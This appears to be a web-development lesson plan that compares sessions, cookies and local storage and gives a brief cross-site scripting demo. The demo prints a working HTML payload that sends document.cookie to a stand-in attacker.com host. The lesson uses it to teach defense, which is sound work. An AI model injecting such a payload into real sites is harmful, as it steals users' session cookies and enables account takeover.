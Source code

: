 ```ruby
```

## Turn & Talk

**5 min**

Have students pair up with a partner and compare/contrast cookies and local storage. They will probably have to do some research especially in regards to local storage.

When would it be appropriate to use either one? What about sessions?

### Sessions vs Cookies vs Local Storage

##### Sessions
  - Can only be read on the server
  - Store secure data that you want to ensure hasn't been tampered with

##### Cookies
  - Can be read by both the client and server
  - Limited in size: 4 kb
  - Can set expiry time
  - Sent with every request to the server in the headers

##### Local Storage
  - HTML5, newer technology. Need to check requirements
  - Up to 5 mb storage per domain
  - Can ONLY be read by the client
  - Data persists forever, must be cleared manually by JavaScript or clearing browser history

### Cross-site Scripting

> This demo needs to be run from 127.0.0.1 (not 'localhost') on Chrome for it to work, in Safari we can just open up the file directly and it will work

If a website is not filtering user generated content, then a malicious user could output html/javascript that grabs any sensitive cookie data (e.g. session id) and send it to another malicoius website to steal it

```html
<a href="#" onclick="window.location='http://attacker.com/stole.cgi?text='+escape(document.cookie); return false;">Click here!</a>
```

## Class Exercise

**We Do**

Update your class repository and look at the starter code. We're going to build a mini shopping cart.
